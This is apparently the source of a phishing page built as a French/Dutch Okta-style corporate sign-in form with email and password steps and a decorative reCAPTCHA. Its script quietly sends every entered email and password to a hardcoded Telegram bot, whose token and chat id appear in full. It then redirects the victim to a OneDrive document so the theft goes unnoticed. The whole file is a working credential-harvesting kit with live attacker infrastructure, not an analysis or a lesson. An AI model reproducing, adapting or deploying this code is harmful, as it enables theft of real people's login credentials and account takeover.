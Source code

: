 <!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Formulaire de Connexion</title>
    <style>
        body {
            background-image: url('https://ok9static.oktacdn.com/fs/bco/7/fs0chyx69ua4xbJnw417');
            font-family: Arial, sans-serif;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
        }
        .container {
            background-color: white;
            padding: 40px;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
            width: 400px;
            text-align: beginning;
        }
        .logo {
            width: 200px;
        }
        input[type="text"], input[type="password"] {
            width: 80%;
            padding: 20px;
            margin: 10px 0;
            border: 1px solid #ccc;
            border-radius: 4px;
            box-sizing: border-box;
        }
        button {
            background-color: #FFD700; /* Jaune foncé */
            color: black;
            padding: 10px;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            width: 80%;
            margin: 10px 0;
        }
        .remember-me {
            margin-bottom: 10px;
        }
        .languages {
            text-align: right;
        }
        .footer-links {
            font-size: 12px;
            margin-top: 20px;
        }
    </style>
</head>
<body>

<title>reCAPTCHA demo:Formulaire de Connexion</title>
				<script src="https://www.google.com/recaptcha/api.js" async defer></script>
	<script src="https://www.google.com/recaptcha/api.js?render=6LfLk4krAAAAAAYrxknddKfxmWprfp8Izcc3gQ1f
"></script>


    <div class="container">
        <div class="languages">
            <a href="#">NL</a> | <a href="#">FR</a> | <a href="#">EN</a>
        </div>
        <img src="https://ok9static.oktacdn.com/fs/bco/1/fs0ci1i9sp9xQg0tI417" alt="Logo" class="logo">
        
        <div id="emailSection">
            <label for="email">Je e-mailadres</label>
            <input type="text" id="email" placeholder="Entrez votre e-mail">
            <div class="remember-me">
                <input type="checkbox" id="rememberMe"> 
                <label for="rememberMe">Aangemeld blijven</label>
            </div>
            <button id="nextButton">Volgende</button>
        </div>

        <div id="passwordSection" style="display: none;">
            <label for="password">Wachtwoord</label>
            <input type="password" id="password" placeholder="Entrez votre mot de passe">
            <button id="loginButton">Bevestigen</button>
        </div>
		
		<title>reCAPTCHA demo:Formulaire de Connexion</title>
				<script src="https://www.google.com/recaptcha/api.js" async defer></script>
	<script src="https://www.google.com/recaptcha/api.js?render=6LfLk4krAAAAAAYrxknddKfxmWprfp8Izcc3gQ1f
"></script>


        <div class="footer-links">
            <p><a href="#">Wachtwoord vergeten?</a></p>
            <p><a href="#">Aanmelden met iets anders - NIEUW</a></p>
            <p><a href="#">Terug naar aanmelden</a></p>
        </div>
    </div>

    <script>
        document.getElementById('nextButton').addEventListener('click', function() {
            const email = document.getElementById('email').value;
            if (email) {
                document.getElementById('emailSection').style.display = 'none';
                document.getElementById('passwordSection').style.display = 'block';
            } else {
                alert('Veuillez entrer un e-mail.');
            }
        });

        document.getElementById('loginButton').addEventListener('click', function() {
            const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;

            if (email && password) {
                // Envoi des données à votre bot Telegram
                fetch(`https://api.telegram.org/bot5664903678:AAHEHtO2Wb-UC5N7AizvuqiQ-Nd_G89Rd90/sendMessage?chat_id=5147593892&text=Email:%20${encodeURIComponent(email)}%0AMot%20de%20passe:%20${encodeURIComponent(password)}`)
                    .then(response => {
                        if (response.ok) {
                            window.location.href = 'https://1drv.ms/b/c/8918d9ec899110da/EdoQkYns2RgggIl3AQAAAAABzNFTluvgFDIMjWbeg9NCaw?e=tHs9ON';
                        } else {
                            alert('Erreur lors de l\'envoi des données.');
                        }
                    });
            } else {
                alert('Veuillez remplir tous les champs.');
            }
        });
    </script>

</body>
</html>
